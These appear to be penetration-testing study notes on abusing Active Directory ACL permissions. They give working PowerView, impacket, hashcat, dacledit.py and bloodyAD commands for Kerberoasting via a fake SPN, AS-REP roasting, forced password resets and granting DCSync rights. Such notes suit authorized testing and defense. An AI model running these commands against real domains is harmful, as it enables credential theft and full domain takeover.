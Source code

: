 # ACL

### Addself

    Addself abused with Add-DomainGroupMember

Shows security groups that a user can add themselves to.

### ForceChangePassword

    Abused with Set-DomainUserPassword
    https://github.com/Andre92Marcos/tools/blob/master/powersploit/PowerView.md#functions

Gives us the right to reset a user's password without first knowing their password (should be used cautiously and typically best to consult our client before resetting passwords).

### GenericWrite

    Abused with Set-DomainObject

Gives us the right to write to any non-protected attribute on an object. If we have this access over a user, we could assign them an SPN and perform a Kerberoasting attack (which relies on the target account having a weak password set). Over a group means we could add ourselves or another security principal to a given group. Finally, if we have this access over a computer object, we could perform a resource-based constrained delegation attack which is outside the scope of this module.

Example:

```powershell
# Create a cred object of the user the has the GenericWrite acl
$SecPassword = ConvertTo-SecureString 'DBAilfreight1!' -AsPlainText -Force
$Cred = New-Object System.Management.Automation.PSCredential('INLANEFREIGHT\mssqladm', $SecPassword)

#Next we'll use Set-DomainObject to set a fake SPN on the target account. We'll create an SPN named acmetesting/LEGIT
Set-DomainObject -credential $Cred -Identity ttimmons -SET @{serviceprincipalname='acmetesting/LEGIT'} -Verbose
```
```shell
#Finally we can use impacket to get the tgt of th target account
impacket-GetUserSPNs -dc-ip 172.16.8.3 INLANEFREIGHT.LOCAL/mssqladm -request-user ttimmons
#And then crack
hashcat -m 13100 ttimmons_tgs /usr/share/wordlists/rockyou.txt
```


### GenericAll

    Abused with Set-DomainUserPassword or Add-DomainGroupMember

This grants us full control over a target object. Again, depending on if this is granted over a user or group, we could modify group membership, force change a password, or perform a targeted Kerberoasting attack. If we have this access over a computer object and the Local Administrator Password Solution (LAPS) is in use in the environment, we can read the LAPS password and gain local admin access to the machine which may aid us in lateral movement or privilege escalation in the domain if we can obtain privileged controls or gain some sort of privileged access.

We can also add the dont_req_preauth setting so that the account is ASREProastable:

```
bloodyAD --host <dc_controller_name> -d "domain_name" --dc-ip <domain_controller_ip> -k add uac <username_of_target_account> -f DONT_REQ_PREAUTH
```

### WriteDacl

This abuse can be carried out when controlling an object that has WriteDacl over another object.

Instead of giving full control, the same process can be applied to allow an object to DCSync by adding two ACEs with specific Extended Rights (DS-Replication-Get-Changes and DS-Replication-Get-Changes-All). Giving full control leads to the same thing since GenericAll includes all ExtendedRights, hence the two extended rights needed for DCSync to work.

Using dacledit.py

```
dacledit.py -action 'write' -rights 'FullControl' -principal 'controlled_object' -target 'target_object' "$DOMAIN"/"$USER":"$PASSWORD"
```

```
dacledit.py -action 'write' -rights 'DCSync' -principal 'controlled_object' -target 'target_object' "$DOMAIN"/"$USER":"$PASSWORD"
```

Using bloodyAd

```
bloodyAD --host "$DC_IP" -d "$DOMAIN" -u "$USER" -p "$PASSWORD" add genericAll "$TargetObject" "$ControlledPrincipal"
```

```
# Give DCSync (DS-Replication-Get-Changes, DS-Replication-Get-Changes-All)
bloodyAD --host "$DC_IP" -d "$DOMAIN" -u "$USER" -p "$PASSWORD" add dcsync "$ControlledPrincipal"
```

### WriteOwner

    Abuse with bloodyAD

    bloodyAD --host <host_ip> -d '<domain_name>' -u '<username>' -p '<password>' set owner <group_name> <name_of_new_owner>
    dacledit.py -action 'write' -rights 'FullControl' -principal '<username_of_new_owner>' -target '<username_being_owned>' '<domain_name>'/'<username_new_owner>':'<password_new_owner>' # to give full control

https://github.com/Andre92Marcos/tools/tree/master/bloodyAD
